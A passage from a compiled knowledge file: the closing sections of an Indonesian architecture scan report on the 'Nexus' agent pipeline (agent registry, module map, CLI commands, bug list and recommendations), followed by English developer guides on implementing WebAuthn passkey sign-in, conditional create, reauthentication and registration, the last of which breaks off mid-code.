    ├── security/            ← Wisdom keamanan
    ├── performance/         ← Wisdom performa
    ├── ui-ux/              ← Wisdom desain
    ├── database/            ← Wisdom database
    ├── tdd/                 ← Wisdom pengujian
    ├── vcs/                 ← Wisdom version control
    └── academics/           ← Hasil distilasi paper/artikel
    │
    ▼ [Distiller.generateHubIndex()]
memory/distilled/NEXUS_HUB_INDEX.md       ← Master index
memory/distilled/NEXUS_SEMANTIC_INDEX.json ← Semantic search index
memory/distilled/NEXUS_NEURAL_MAP.md       ← Mermaid connection graph
    │
    ▼ [NexusEngine.readMemory() → searchKnowledge(tag)]
SEMANTIC SEARCH             ← Engine query HUB berdasarkan tag
memory/short_term/link_cache.json ← Cache linking untuk efisiensi
```

---

## 7. 👥 AGENT REGISTRY — 14 Specialist Prompts

| # | Agent ID | Domain | Type |
|---|----------|--------|------|
| 1 | `orchestrator` | Master orchestration | Internal (~2MB prompt) |
| 2 | `guru` | Senior wisdom | Internal (~2MB prompt) |
| 3 | `pipeline-architect` | Pipeline design | Internal (~2MB prompt) |
| 4 | `agent-manager` | Agent coordination | Internal |
| 5 | `golden-crawler` | Knowledge harvesting | Internal |
| 6 | `looping-tester` | TDD loop automation | Internal |
| 7 | `machinist` | Machine forging | Internal |
| 8 | `memory-manager` | Memory optimization | Internal |
| 9 | `cyber-security` | Security auditing | Internal + Scanner |
| 10 | `ux-engineer` | UX/Design auditing | Internal + Scanner |
| 11 | `seo-performance-specialist` | SEO & performance | Internal + Scanner |
| 12 | `database-architect` | Schema & queries | Internal + Scanner |
| 13 | `vcs-architect` | Git health | Internal + Scanner |
| 14 | `documentation-architect` | Docs compliance | Internal + Scanner |

---

## 8. ⚙️ CORE MODULES — Dependency Map

```mermaid
graph TD
    NE["NexusEngine (God Object)"]
    
    NE --> MOD["Modifier\n(File mutations)"]
    NE --> MEM["MemoryPipeline\n(Archive & harvest data)"]
    NE --> MEMG["MemoryGovernor\n(Locking & validation)"]
    NE --> DIST["Distiller\n(Knowledge HUB ops)"]
    NE --> MACH["Machinist\n(Forge new scanners)"]
    NE --> ORCH["Orchestrator\n(EventBus task routing)"]
    NE --> EVOL["EvolutionPiper\n(Lab sandbox lifecycle)"]
    NE --> SBX["SandboxExecutor\n(Isolated scanner exec)"]
    NE --> LOG["Logger\n(Structured observability)"]
    NE --> CLK["NexusClock\n(Timestamp utils)"]
    NE --> RSM["ResourceMonitor\n(RAM/CPU stress check)"]
    NE --> EB["EventBus (singleton)\n(Pub/Sub event system)"]
    NE --> DC["DecisionEngine\n(Weighted scoring resolver)"]
    
    NE --> T1["TDDGuard\n(Test gate)"]
    NE --> T2["TDDScaffolder\n(Auto-generate tests)"]
    NE --> T3["BugHunter"]
    NE --> T4["Validator\n(Post-exec verification)"]
    NE --> T5["SchemaGuard\n(DB model scanner)"]
    NE --> T6["QueryOptimizer\n(Migration scanner)"]
    NE --> T7["AccessibilityScanner"]
    NE --> T8["AssetEngine"]
    NE --> T9["Designer"]
    NE --> T10["RootCauseAnalyzer"]

    ORCH --> EB
    ORCH --> SBX
```

---

## 9. 🔁 EVOLUSI SKILL — Update Skills Pipeline



---

## 10. 🔄 REFACTOR PIPELINE (Golden → HUB)



---

## 11. 🚨 SISTEM STATE & ERROR HANDLING

```
INIT → PROCESSING → EXECUTING → LOGGING → COMPLETED
                                              ↓
                                           FAILED (jika throw NexusError)
                                              ↓
                                        logError() → documentation/summary/error_log.json
```

**Retry Logic** (Orchestrator):
- MAX_RETRY = 3 attempts per task
- EventBus: `SCANNER_TRIGGERED` → `SCANNER_FINISHED` / `TASK_FAILED`

**MemoryGovernor Lock System**:
- Setiap operasi tulis ke memory pakai file lock (`.lock`)
- Timeout 5000ms → throw jika deadlock

---

## 12. 🗂️ CLI Commands — Full Map

| Command | Handler | Pipeline |
|---------|---------|----------|
| `nexus` (default) | `install()` | Setup nexus/ di project target |
| `nexus run` | `main.js → runCycle()` | Full: Audit→Plan→Execute→Verify→Record |
| `nexus audit` | `engine.audit()` | Audit only |
| `nexus harvest <dir>` | `engine.harvest()` | Harvest dari project lain |
| `nexus distill` | `engine.distill()` | Distillation pipeline (7 steps) |
| `nexus forge <N> <f>` | `machinist.forge()` | Build scanner dari wisdom |
| `nexus refactor` | `engine.massRefactor()` | Golden → HUB sync |
| `nexus update-skills` | `engine.massUpdateSkills()` | HUB → Agent prompts update |
| `nexus skills` | `engine.discoverSkills()` | List semua skill registry |
| `nexus update` | `updateEngine()` | Sync external prompts/workflows |
| `nexus dell` | `uninstall()` | Safe remove nexus/ (preserve docs) |

---

## 13. ⚠️ GAP ANALYSIS & ISSUES TERIDENTIFIKASI

| # | Issue | File | Severity |
|---|-------|------|----------|
| 1 | `MemoryPipeline.archiveAuditReports()` & `archiveImplementationPlans()` — **auto-delete DISABLED** (hotfix comment) | MemoryPipeline.js:120 | 🟡 MEDIUM |
| 2 | `appendToArchive()` juga **di-comment** — archive tidak pernah ter-trigger | MemoryPipeline.js:129 | 🟡 MEDIUM |
| 3 | `EvolutionPiper.harvestWisdom()` path ke `memory/long_term/distilled` tapi folder ini **tidak exist** (seharusnya `memory/distilled`) | EvolutionPiper.js:64 | 🔴 BUG |
| 4 | `Machinist.integrate()` hardcode path `./../auditor/${name}` tapi folder `auditor/` **tidak exist** di project | Machinist.js:42 | 🔴 BUG |
| 5 | `DecisionEngine` terdefinisi tapi **tidak di-import** di NexusEngine.js — fungsi refactor belum terhubung | DecisionEngine.js | 🟡 MEDIUM |
| 6 | `massRefactor()` & `massUpdateSkills()` **tidak ditemukan** di NexusEngine.js (dipanggil dari main.js tapi tidak ada implementasi) | NexusEngine.js | 🔴 CRITICAL |
| 7 | `memory/semantic/` selalu **kosong** — tidak ada pipeline yang aktif mengisi folder ini | memory/semantic/ | 🟡 MEDIUM |
| 8 | `config/` hanya berisi `.env.example` — tidak ada loader konfigurasi | config/ | 🟢 LOW |
| 9 | `EvolutionPiper` di-define tapi **tidak di-import** di NexusEngine.js | EvolutionPiper.js | 🟡 MEDIUM |
| 10 | Logger structured logging ada tapi **log files di `logs/`** belum terverifikasi isinya | logs/ | 🟢 LOW |

---

## 14. 🎯 REKOMENDASI PRIORITAS

### 🔴 Critical (Segera)
1. **Implementasi `massRefactor()` & `massUpdateSkills()`** di NexusEngine.js — saat ini akan throw "not a function"
2. **Fix path `EvolutionPiper`** dari `memory/long_term/distilled` → `memory/distilled`
3. **Fix path `Machinist.integrate()`** dari `./../auditor/` → path yang valid

### 🟡 Medium (Sprint Berikutnya)
4. **Reaktifkan archiving di MemoryPipeline** — saat ini dead code, memory/raw tidak pernah dibersihkan
5. **Import & gunakan `DecisionEngine`** di refactor flow
6. **Aktifkan `memory/semantic/`** sebagai output dari semantic tagging pipeline
7. **Import `EvolutionPiper`** ke NexusEngine agar lab cycle bisa digunakan

### 🟢 Enhancement
8. Buat `config loader` dari `.env.example` → runtime config
9. Tambah `nexus status` command untuk health check semua pipeline
10. Tambah `nexus test` integrasi ke TDD runner otomatis

---

*Scan dilakukan oleh: Antigravity AI Engineer | Nexus Pipeline Architecture v3.1.0*


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, ui-ux, performance, tdd, vcs, api]

### 📘 KNOWLEDGE: NEXUS_PASSKEY-AUTHENTICATION.MD

# Passkey Authentication Guide
> **VERSION**: v1 | **Last Updated**: 26/05/2026


This guide details how to implement returning user authentication using discoverable credentials, both through explicit button triggers and seamless browser autofill suggestions (Conditional UI).

## Server-Side

### Options Generation

Create an endpoint that generates WebAuthn request parameters using a vetted library per standards.

1.  **Use the predefined RP ID**: Use the predefined proper RP ID as a constant string.
2.  **Generate challenge**: Generate a high-entropy, cryptographically secure random buffer, store it securely in the user's session, and encode it as Base64URL.
3.  **Discoverable Credentials mapping**: Specify an empty array `[]` for `allowCredentials`. This requests discoverable credentials, meaning the user does not need to enter their username first; the passkey provider will present available accounts.
4.  **User Verification level**: Set `userVerification: "preferred"` (or `"required"` if explicitly mandated by corporate compliance policies).
    - The requested `userVerification` constraint level MUST be persisted inside the server session record at the options endpoint, rather than passed back from the client via query strings. This allows the verification endpoint to enforce strict matching constraints safely without risk of client manipulation.

```javascript
// Options generation example (discoverable flow)
const options = {
  challenge: serverGeneratedBase64UrlChallenge, // High-entropy random challenge stored in session
  rpId: "example.com",
  allowCredentials: [], // Request discoverable passkeys
  userVerification: "preferred",
};

// Persist expected UV level to user session
req.session.expectedUserVerification = "preferred";
```

### Verification Endpoint

Securely verify the assertion returned by the client to authenticate the user:

1.  **Validate session challenge**: Enforce strict challenge matching between the client response and the expected challenge stored in the session.
2.  **Enforce UV Preferences**:
    - Allow UV-less authenticators (e.g., authenticator screen locks disabled) if the session's `expectedUserVerification` requested `"preferred"`, by passing `requireUserVerification: false` to your server-side verification library. If requested `"required"`, enforce biometrics/PIN entry strictly.
3.  **Clean Server Error 404**: If the credential ID returned by the client is not found in the database, return an explicit HTTP `404` error so the client can trigger the Signal API.

## Client-Side Logic

### HTML Form Annotation

Annotate your username and password inputs to natively leverage Conditional UI. Autocomplete tokens combine the webauthn spec parameters, and autofocus triggers the browser autofill popup immediately when the input is focused.

```html
<!-- Autocomplete tokens must contain webauthn space-separated -->
<form id="signin-form">
  <input
    type="text"
    name="username"
    autocomplete="username webauthn"
    autofocus
    data-testid="username-field"
  />
  <input type="password" name="password" autocomplete="current-password" />
  <button type="submit">Sign in</button>
</form>
```

### Explicit Button Flow

Trigger passkey authentication when a user clicks a "Sign in with passkey" button. Abort any ongoing form autofill (Conditional Get) calls before invoking the passkey prompt.

### Conditional Mediation Flow (Form Autofill)

Activate form autofill suggestions on page load to offer passkey authentication natively when users focus on sign-in fields:

1.  **Feature detect**: Call `PublicKeyCredential.getClientCapabilities()` on page load and **skip signing in with passkey** if `conditionalGet` is not available.
2.  **Decode options**: Decode fetched credential JSON object with `PublicKeyCredential.parseRequestOptionsFromJSON()`.
3.  **Invoke Conditional Get**: Call `navigator.credentials.get()` with `mediation: "conditional"` and pass an `AbortController` signal. This registers autofill silently without rendering a passkey dialog.
4.  **Try/Catch Exception Segregation**: Wrap `navigator.credentials.get` call in try/catch block:
    - `NotAllowedError`: The user cancelled or timed out the passkey login prompt.
    - `AbortError`: The authentication request was cancelled programmatically.
5.  **Call Signal API**: Wrap server verification `fetch()` call in a try/catch block:
    - Show an error message for the user to understand what went wrong.
    - Call `signalUnknownCredential()` ONLY when the server explicitly responds with HTTP status `404` (Credential not found) and the user is unauthenticated.
    - The `credentialId` parameter passed to `signalUnknownCredential()` MUST strictly be the Base64URL-encoded credential ID string (e.g., `encoded.id`), NOT the raw ArrayBuffer object `credential.rawId`.
6.  **Encode the response**: Encode the credential `AuthenticatorAssertionResponse` with `.toJSON()` before sending it to the server for verification.

```javascript
// optionsFetch and loginVerifyFetch are app-defined HTTP methods
import { optionsFetch, loginVerifyFetch } from "./api.js";

let autofillAbortController = new AbortController();

async function initializeConditionalAutofill() {
  // Feature detect Conditional Get autofill support
  const capabilities = await PublicKeyCredential.getClientCapabilities();
  if (capabilities.conditionalGet === true) {
    const loginOptionsJSON = await optionsFetch();
    const publicKey =
      PublicKeyCredential.parseRequestOptionsFromJSON(loginOptionsJSON);

    try {
      // Initiate Conditional UI form autofill suggestions
      const credential = await navigator.credentials.get({
        publicKey,
        signal: autofillAbortController.signal,
        mediation: "conditional",
      });

      // Segregated verification fetch
      const encoded = credential.toJSON();
      const response = await loginVerifyFetch(encoded);
      if (!response.ok && response.status === 404) {
        // Note: this code path runs pre-authentication, satisfying the unauth precondition
        if (PublicKeyCredential.signalUnknownCredential) {
          await PublicKeyCredential.signalUnknownCredential({
            rpId, // RP ID must match the one defined on the server
            credentialId: encoded.id,
          });
        }
      }
    } catch (err) {
      // Silently swallow expected client WebAuthn exceptions
      if (["NotAllowedError", "AbortError"].includes(err.name)) {
        return;
      }
      console.error("Unexpected conditional get error:", err);
    }
  }
}

async function triggerButtonAuthentication() {
  // Abort any pending Conditional Get call to prevent passkey prompt collisions
  autofillAbortController.abort();
  autofillAbortController = new AbortController(); // Reset controller for next triggers

  const loginOptionsJSON = await optionsFetch();
  const publicKey =
    PublicKeyCredential.parseRequestOptionsFromJSON(loginOptionsJSON);

  let credential;
  try {
    // Passkey explicit prompt trigger
    credential = await navigator.credentials.get({
      publicKey,
      signal: autofillAbortController.signal,
    });
  } catch (err) {
    if (err.name === "NotAllowedError") {
      console.log("User cancelled passkey login.");
    } else if (err.name === "AbortError") {
      console.log("The authentication operation was aborted.");
    }
    // Re-arm Conditional autofill Suggestions after cancelled explicit button prompts
    initializeConditionalAutofill();
    return; // Safe exit
  }

  // Segregated verification try/catch (HTTP 404 trigger)
  const encoded = credential.toJSON();
  try {
    const response = await loginVerifyFetch(encoded);
    if (!response.ok && response.status === 404) {
      // Note: this code path runs pre-authentication, satisfying the unauth precondition
      await PublicKeyCredential.signalUnknownCredential({
        rpId, // RP ID must match the one defined on the server
        credentialId: encoded.id, // Base64URL-encoded credential ID
      });
    }
  } catch (serverErr) {
    console.error("Verification request error:", serverErr);
  }
}

// Trigger Conditional Get on load
window.addEventListener("DOMContentLoaded", initializeConditionalAutofill);
```

## Fallback Strategies

### Passkey feature detection fallback

Baseline status for the api.PublicKeyCredential.getClientCapabilities_static capability: Newly available. It's been Baseline since 2025-02-06.
Supported by: Chrome 133 (Feb 2025), Edge 133 (Feb 2025), Firefox 135 (Feb 2025), and Safari 17.4 (Mar 2024).

Always install 'webauthn-polyfills' and import it in the context.
Consider as long as  `PublicKeyCredential` is supported, `PublicKeyCredential.getClientCapabilities` is also supported. 

```js 
import 'webauthn-polyfills';
``` 

### Signal API Synchronization Fallback

Web authentication signal methods has limited availability.
Supported by: Chrome 132 (Jan 2025), Edge 132 (Jan 2025), and Safari 26 (Sep 2025).
Unsupported in: Firefox.

The WebAuthn Signal API (`webauthn-signals`) is a progressive optimization used to keep password managers in sync with the server credential state.

- **Fallback Experience**: Gated via `if (PublicKeyCredential.signalUnknownCredential)`. If unsupported, the background verification sync is bypassed gracefully without throwing browser exceptions.

### Easy JSON Serialization Fallback

Baseline status for the api.PublicKeyCredential.parseRequestOptionsFromJSON_static capability: Newly available. It's been Baseline since 2025-03-31.
Supported by: Chrome 129 (Sep 2024), Edge 129 (Sep 2024), Firefox 119 (Oct 2023), and Safari 18.4 (Mar 2025).

Always install 'webauthn-polyfills' and import it in the context.
Consider as long as  `PublicKeyCredential` is supported, `PublicKeyCredential.parseRequestOptionsFromJSON` and `PublicKeyCredential.prototype.toJSON` are also supported. 

```js 
import 'webauthn-polyfills';
``` 


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, database, tdd, api]

### 📘 KNOWLEDGE: NEXUS_PASSKEY-CONDITIONAL-CREATE.MD

# Passkey Conditional Create (Post-Login Promotion)
> **VERSION**: v1 | **Last Updated**: 26/05/2026


This guide details how to automatically and silently register a passkey for a user immediately after a successful password-based sign-in, minimizing friction and boosting passkey adoption.

## The Right Trigger Moment

Automatic passkey creation (also known as Conditional Create or silent post-login promotion) MUST only be triggered **immediately after a successful, full sign-in that involved a password**. 
* Do not attempt conditional creation for passwordless flows (e.g., magic links, SMS OTP, or identity federation).
* If multi-factor authentication is required, you MUST wait until all factors have succeeded before initiating conditional creation.
* Ensure a valid, authenticated user session is active before making requests to creation endpoints.

## Implementation Steps

### 1. Abort Prior Autofill Actions
If the sign-in page utilizes form autofill (Conditional UI/Get), the active credential get call must be aborted to prevent browser conflicts.
* Call `abortController.abort()` on the `AbortController` attached to the pending `navigator.credentials.get()` autofill request before calling `navigator.credentials.create()`.

### 2. Feature Detection
Determine whether Conditional Create is available by checking `conditionalCreate` with `PublicKeyCredential.getClientCapabilities()`.

```javascript
const capabilities = await PublicKeyCredential.getClientCapabilities();
if (capabilities.conditionalCreate) {
  // Conditional create is available
}
```

### 3. Create a passkey with Conditional Create
* Pass `mediation: 'conditional'` within the `navigator.credentials.create()` options. This signals the browser to handle the passkey creation flow silently in the background or contextually without throwing obtrusive modal dialogs.
* Populate `excludeCredentials` with the user's existing passkey credential IDs to avoid registering duplicate keys.

### 4. Silent Error Handling
* Wrap the passkey creation prompt (`navigator.credentials.create`) in a try/catch block. You MUST catch and silently ignore typical user-facing exceptions (`InvalidStateError`, `NotAllowedError`, `AbortError`) without rendering any error UI to the user.

### 5. Server-Side User Presence Verification
* The server-side verification endpoint MUST relax the User Presence (UP) requirement (`requireUserPresence: false`) **ONLY** when verifying credentials produced by a conditional-create trigger. Strict presence verification must remain active for standard explicit creations.

### 6. Handle Failed Server Verification gracefully
* If `navigator.credentials.create()` succeeds but the server verification fetch returns a bad response (e.g., signature verification fails), invoke `PublicKeyCredential.signalUnknownCredential()` to prevent orphaned credentials from lingering in the passkey provider.

## Code Example

```javascript
// optionsFetch and registerVerifyFetch are app-defined server endpoint requests
import { optionsFetch, registerVerifyFetch } from './api.js';

async function triggerConditionalCreate(loginAbortController) {
  const capabilities = await PublicKeyCredential.getClientCapabilities();
  if (capabilities.conditionalCreate !== true) {
    return; // Platform does not support conditional creation
  }

  // 1. Abort any active autofill conditional-get controllers to clear the WebAuthn pipeline
  loginAbortController.abort();

  // 2. Fetch creation options signaling the backend that this is a conditional request
  const creationOptionsJSON = await optionsFetch({ conditional: true });
  const publicKey = PublicKeyCredential.parseCreationOptionsFromJSON(creationOptionsJSON);

  let credential;
  try {
    // 3. Invoke silent credentials creation prompt
    credential = await navigator.credentials.create({ 
      publicKey,
      mediation: 'conditional' // Silent background creation mediation
    });
  } catch (e) {
    // 4. Silently swallow common WebAuthn browser exceptions
    if (['InvalidStateError', 'NotAllowedError', 'AbortError'].includes(e.name)) {
      return; 
    }
    console.error('Unexpected conditional create error:', e);
    return;
  }

  // 5. Server verification step using dedicated Try/Catch block
  let encodedResponse = credential.toJSON();
  try {
    const response = await registerVerifyFetch(encodedResponse);
    if (!response.ok) {
      // If the server verification fails, clean up using Signal API
      if (PublicKeyCredential.signalUnknownCredential) {
        await PublicKeyCredential.signalUnknownCredential({
          rpId, // RP ID must match the one defined on the server
          credentialId: encodedResponse.id
        });
      }
    }
  } catch (serverErr) {
    console.error('Verification network failure:', serverErr);
    if (PublicKeyCredential.signalUnknownCredential) {
      await PublicKeyCredential.signalUnknownCredential({
        rpId, // RP ID must match the one defined on the server
        credentialId: encodedResponse.id
      });
    }
  }
}
```

## Fallback Strategies

### Passkey feature detection fallback

Baseline status for the api.PublicKeyCredential.getClientCapabilities_static capability: Newly available. It's been Baseline since 2025-02-06.
Supported by: Chrome 133 (Feb 2025), Edge 133 (Feb 2025), Firefox 135 (Feb 2025), and Safari 17.4 (Mar 2024).

Always install 'webauthn-polyfills' and import it in the context.
Consider as long as  `PublicKeyCredential` is supported, `PublicKeyCredential.getClientCapabilities` is also supported. 

```js 
import 'webauthn-polyfills';
``` 

### Signal API Synchronization Fallback

Web authentication signal methods has limited availability.
Supported by: Chrome 132 (Jan 2025), Edge 132 (Jan 2025), and Safari 26 (Sep 2025).
Unsupported in: Firefox.

The WebAuthn Signal API (`webauthn-signals`) is a progressive optimization used to keep password managers in sync with the server credential state.
*   **Fallback Experience**: Gated via `if (PublicKeyCredential.signalUnknownCredential)`. If unsupported, the background verification sync is bypassed gracefully without throwing browser exceptions.

### Easy JSON Serialization Fallback

Baseline status for the api.PublicKeyCredential.parseCreationOptionsFromJSON_static capability: Newly available. It's been Baseline since 2025-03-31.
Supported by: Chrome 129 (Sep 2024), Edge 129 (Sep 2024), Firefox 119 (Oct 2023), and Safari 18.4 (Mar 2025).

Always install 'webauthn-polyfills' and import it in the context.
Consider as long as  `PublicKeyCredential` is supported, `PublicKeyCredential.parseCreationOptionsFromJSON` and `PublicKeyCredential.prototype.toJSON` are also supported. 

```js 
import 'webauthn-polyfills';
``` 


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, ui-ux, api]

### 📘 KNOWLEDGE: NEXUS_PASSKEY-REAUTHENTICATION.MD

# Passkey Reauthentication Guide
> **VERSION**: v1 | **Last Updated**: 26/05/2026


This delta-focused guide details how to implement step-up authentication or re-verification for a signed-in user before they perform sensitive account changes (e.g. passwords updates, financial transfers).

## Delta Flow Architecture

Unlike regular authentication, passkey reauthentication constrains passkey dialog prompts strictly to the logged-in user's pre-registered credentials to prevent account-mixing or passkey spoofing during active sessions.

## Server-Side

### Options Generation Delta

Create an endpoint that populates the allowed credentials parameters specifically for the active, known user:

**Constrain Credentials**: Populate the `allowCredentials` options array with specific `PublicKeyCredentialDescriptor` records mapping all registered credential IDs for the signed-in user. Leaving this empty or omitting it regresses to discoverable credentials, violating session safety.

```javascript
// Node.js step-up options generation example
router.post("/api/reauth/options", enforceActiveSession, async (req, res) => {
  const userPasskeys = await db.findCredentialsByUserId(req.user.id);

  const options = {
    challenge: serverGeneratedBase64UrlChallenge, // Random challenge stored in user session
    rpId: "example.com",
    // Enforce allowance strictly limited to the user's credentials list
    allowCredentials: userPasskeys.map((cred) => ({
      type: "public-key",
      id: cred.id,
      transports: cred.transports, // Speeds up resolution by indicating platform transports
    })),
  };
  return res.json(options);
});
```

### Verification Endpoint Delta

Verify the assertion returned by the client:

**Verify Account Ownership**: The verification endpoint MUST explicitly verify that the resulting authenticated credential ID returned by the client resolves to a stored credential record whose associated user ID strictly matches the active signed-in user (`storedCredential.passkeyUserId === req.user.id`). If a valid passkey of a _different_ user is returned, authentication MUST be rejected immediately.

## Client-Side Flow Deltas

Applications choose from two reauthentication interfaces depending on the transaction UI:

### A. Button Flow (No Input Fields)

Trigger reauthentication when a user presses a "Verify Identity" or "Proceed with Transaction" button.

```html
<button id="reauth-btn" data-testid="reauth-button">Confirm Transaction</button>
```

```javascript
let reauthAbortController = new AbortController();

async function triggerButtonReauth() {
  // Abort any background suggestion flows to avoid passkey prompt collisions
  reauthAbortController.abort();
  reauthAbortController = new AbortController();

  const optionsResponse = await fetch("/api/reauth/options", {
    method: "POST",
  });
  const optionsJSON = await optionsResponse.json();
  const publicKey =
    PublicKeyCredential.parseRequestOptionsFromJSON(optionsJSON);

  try {
    const credential = await navigator.credentials.get({
      publicKey,
      signal: reauthAbortController.signal,
    });

    if (credential) {
      const encodedCredential = credential.toJSON();
      const verifyResponse = await fetch("/api/reauth/verify", {
        method: "POST",
        headers: { "Content-Type": "application/json" },
        body: JSON.stringify(encodedCredential),
      });

      if (verifyResponse.ok) {
        showTransactionSuccessUI();
      } else if (verifyResponse.status === 404 && PublicKeyCredential.signalUnknownCredential) {
        await PublicKeyCredential.signalUnknownCredential({
          rpId, // RP ID must match the one defined on the server
          credentialId: encodedCredential.id
        });
      }
    }
  } catch (err) {
    if (err.name === "NotAllowedError") {
      console.log("User cancelled reauthentication.");
    }
  }
}

document
  .getElementById("reauth-btn")
  .addEventListener("click", triggerButtonReauth);
```

## Fallback Strategies

### Passkey feature detection fallback

Baseline status for the api.PublicKeyCredential.getClientCapabilities_static capability: Newly available. It's been Baseline since 2025-02-06.
Supported by: Chrome 133 (Feb 2025), Edge 133 (Feb 2025), Firefox 135 (Feb 2025), and Safari 17.4 (Mar 2024).

Always install 'webauthn-polyfills' and import it in the context.
Consider as long as  `PublicKeyCredential` is supported, `PublicKeyCredential.getClientCapabilities` is also supported. 

```js 
import 'webauthn-polyfills';
``` 

### Easy JSON Serialization Fallback

Baseline status for the api.PublicKeyCredential.parseRequestOptionsFromJSON_static capability: Newly available. It's been Baseline since 2025-03-31.
Supported by: Chrome 129 (Sep 2024), Edge 129 (Sep 2024), Firefox 119 (Oct 2023), and Safari 18.4 (Mar 2025).

Always install 'webauthn-polyfills' and import it in the context.
Consider as long as  `PublicKeyCredential` is supported, `PublicKeyCredential.parseRequestOptionsFromJSON` and `PublicKeyCredential.prototype.toJSON` are also supported. 

```js 
import 'webauthn-polyfills';
``` 


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [security, tdd, api]

### 📘 KNOWLEDGE: NEXUS_PASSKEY-REGISTRATION.MD

# Passkey Registration Guide
> **VERSION**: v1 | **Last Updated**: 26/05/2026


This guide details how to enable users to register a passkey for their account, providing a highly secure, phishing-resistant passwordless sign-in alternative.

## Database Requirements

To support passkey registrations, your database credential table must store the following fields:

```typescript
export interface StoredPasskeyCredential {
  id: string; // Base64URL-encoded credential ID (unique lookup key)
  passkeyUserId: string; // Associated application user ID
  credentialPublicKey: string; // Base64URL-encoded public key used to verify assertion signatures
  credentialType: "public-key";
  credentialDeviceType: "singleDevice" | "multiDevice"; // Helps distinguish device-bound vs cloud-synced passkeys
  credentialBackedUp: boolean; // Boolean backup state reported by the authenticator
  aaguid: string; // Authenticator Attestation GUID
  providerIcon?: string; // Provider icon derived from the AAGUID registry (dark or light theme URLs)
  name: string; // Provider name derived from AAGUID registry
  transports: string[]; // Array of transport names (e.g. 'internal', 'hybrid') necessary for exclusion options
  lastUsedAt?: number; // Optional epoch timestamp of last sign-in
  registeredAt: number; // Registration epoch timestamp
  counter: number; // Authenticator sign-in signature counter used to prevent replay attacks
}
```

## Server-Side

### Options Generation

Create an endpoint that generates WebAuthn creation parameters. Rely on a vetted library per category standards instead of hand-rolling cryptography.

1.  **Use the predefined RP ID**: Use the predefined proper RP ID as a constant string.
2.  **Create a secure Challenge**: Generate a high-entropy, cryptographically secure random buffer on the server, store it securely in the user's session, and encode it as Base64URL for options delivery.
3.  **Avoid Duplicate Passkeys**: Map the user's existing pre-registered credential IDs to the `excludeCredentials` options array. This prevents the authenticator from registering duplicate credentials on the same passkey provider account.
4.  **Enforce Discoverable Credentials**: Set `requireResidentKey: true` and `residentKey: "required"` in the `authenticatorSelection` options to request a discoverable credential, which is necessary for discoverable sign-ins.
5.  **Configure User Verification**: Specify `userVerification: "preferred"` or `userVerification: "required"`. Many compliance use cases (e.g., finance, healthcare) require `'required'` to enforce user verification on creation.
6.  **Determine Attachment Scope**:
    - **Promotion Flow**: When proposing passkey creation right after standard password sign-ins or post-signup promotions, set `authenticatorAttachment: "platform"` to enforce platform authenticator and bypass external security key prompts.
    - **Management Flow**: When called from a dedicated settings or security panel where external security keys are supported in addition to platform authenticator, omit the `authenticatorAttachment` property entirely.
    - _Tip_: Accept a `promotion: boolean` request flag to conditionally handle both flows with a single endpoint.

```javascript
// Options generation example
const options = {
  challenge: serverGeneratedBase64UrlChallenge, // Cryptographically random challenge
  rp: { id: "example.com", name: "Secure Application" },
  user: {
    id: userBase64UrlId, // Unique base64url string identifying the account
    name: "user@example.com",
    displayName: "Jane Doe",
  },
  pubKeyCredParams: [
    {
      type: "public-key",
      alg: -7,
    },
    {
      type: "public-key",
      alg: -257,
    },
  ],
  excludeCredentials: userExistingCredentials.map((cred) => ({
    type: "public-key",
    id: cred.id,
    transports: cred.transports,
  })),
  authenticatorSelection: {
    residentKey: "required",
    requireResidentKey: true,
    userVerification: "preferred",
    ...(isPromotionFlow && { authenticatorAttachment: "platform" }),
  },
};
```

### Verification

1.  **Challenge Verification**: Securely verify the challenge against the expected session bound challenge.
2.  **Verify User Presence**:
    - Ensure that the User Present (UP) flag returned in the parsed authenticator data is `true` to confirm physical user presence at the time of creation.
3.  **Relaxing Verification for 'preferred'**:
    - When the creation options specified `userVerification: "preferred"`, the server-side verification call MUST be configured with `requireUserVerification: false`. Otherwise, authenticators that register without user verification (e.g., screen locks disabled) will trigger spurious server verification failures.

## Client-Side Logic

1.  **Gate the UI on page load**:
    - On page load, call `PublicKeyCredential.getClientCapabilities()` and **disable the "Create passkey" button** if `conditionalGet` or `passkeyPlatformAuthenticator` is not available.
2.  **Invoke creation & Serialize**: Decode server options with `PublicKeyCredential.parseCreationOptionsFromJSON()` and pass the resulting configuration to `navigator.credentials.create()`.
    - Call `credential.toJSON()` to encode the `AuthenticatorAttestationResponse` into a valid, JSON-serializable object before fetching the verification endpoint.
3.  **Handle WebAuthn Exceptions**:
    - `InvalidStateError`: A matching passkey already exists (matched by `excludeCredentials`).
    - `NotAllowedError`: The user cancelled or timed out the authentication passkey dialog.
    - `AbortError`: The operation has been aborted.
    - `SecurityError`: Secure origins (HTTPS) or RP ID mismatch errors (configuration issues).
4.  **Try/Catch Segregation for Signal API**:
    - Wrap server verification `fetch()` call in a try/catch block. Call `signalUnknownCredential()` when the server verification fetch fails (any status `response.ok === false` or network throws).

```javascript
// optionsFetch and registerVerifyFetch are app-defined HTTP methods
import { optionsFetch, registerVerifyFetch } from "./api.js";

async function registerPasskey(isPromotion = false) {
  // Verify passkey capability and conditional UI are available
  const capabilities = await PublicKeyCredential.getClientCapabilities();
  if (
    !capabilities.passkeyPlatformAuthenticator ||
    !capabilities.conditionalGet
  ) {
    // Hide "Create passkey" buttons and fall back to password flows instead
    showStandardPasswordFallbackUI();
    return;
  }

  const creationOptionsJSON = await optionsFetch({ promotion: isPromotion });
  const publicKey =
    PublicKeyCredential.parseCreationOptionsFromJSON(creationOptionsJSON);

  let credential;
  try {
    // passkey prompt execution
    credential = await navigator.credentials.create({ publicKey });
  } catch (err) {
    if (err.name === "InvalidStateError") {
      console.log("A passkey already exists for this account.");
      alert("A passkey already exists for this account.");
    } else if (err.name === "SecurityError") {
      console.error("Configuration RP ID or Secure Context error.");
      alert("Configuration RP ID or Secure Context error.");
